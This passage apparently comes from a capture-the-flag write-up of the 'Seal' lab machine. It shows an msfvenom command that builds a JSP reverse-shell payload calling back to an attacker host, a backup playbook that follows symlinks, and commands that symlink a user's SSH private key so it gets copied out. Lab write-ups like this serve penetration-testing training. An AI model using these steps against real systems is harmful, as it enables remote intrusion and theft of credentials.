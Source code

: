 ````bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.9 LPORT=4242 -f war -o qdadashell.war
````

## deploy payload 

![](seal.htb-13.gif)
- start listener and deploy the payload, taking care to modify the path in Burp

# user 2

## /etc/passwd

![](seal.htb-14.png)
- an account called luis is able to login, this must be the user account to target

## backup process

![](seal.htb-15.png)
- directory /opt/backups has 2 folders; <span class="myTurquoise">archives</span> and <span class="myTangerine">playbook</span>
- <span class="myTurquoise">archives</span> has backup files created every minute

````bash
cat run.yml
- hosts: localhost
  tasks:
  - name: Copy Files
    synchronize: src=/var/lib/tomcat9/webapps/ROOT/admin/dashboard dest=/opt/backups/files copy_links=yes
  - name: Server Backups
    archive:
      path: /opt/backups/files/
      dest: "/opt/backups/archives/backup-{{ansible_date_time.date}}-{{ansible_date_time.time}}.gz"
  - name: Clean
    file:
      state: absent
      path: /opt/backups/files/

````


- <span class="myTangerine">playbook</span> has a .yml file containing information about how the backups are executed. 
- Symbolic links are allowed and followed in the backups meaning that any symbolic links will cause those linked files to be copied directly.

````bash
cd /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads
ln -s /home/luis/.ssh/id_rsa luis_id_rsa
cd /opt
cd backups
cd archives
cp backup-2021-08-07-23:37:32.gz /dev/shm
````
